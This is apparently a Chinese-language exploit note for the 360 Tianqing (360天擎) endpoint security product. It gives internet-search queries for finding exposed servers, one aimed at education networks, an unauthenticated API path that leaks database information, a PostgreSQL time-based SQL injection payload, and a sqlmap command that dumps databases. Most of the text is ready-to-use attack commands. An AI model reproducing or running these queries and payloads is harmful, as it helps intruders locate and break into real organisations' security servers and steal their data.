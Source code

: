 ## 360天擎 - 未授权与sql注入

## FOFA语法
```title="360新天擎"```


## 鹰图
```web.title="360新天擎"&& ip.isp="教育"```

## 漏洞复现

### 未授权漏洞
```路由后拼接/api/dbstat/gettablessize```
![](../../assets/20231018183944.png)

### sql注入漏洞
比较推荐的方式先测试是否存在数据库信息泄露，存在的话大概率存在SQL注入
```
路由后拼接/api/dp/rptsvcsyncpoint?ccid=1

{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1';SELECT PG_SLEEP(5)--
```
![](../../assets/20231018184057.png)

## sqlmap
python .\sqlmap.py --batch -dbs -u https://{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1
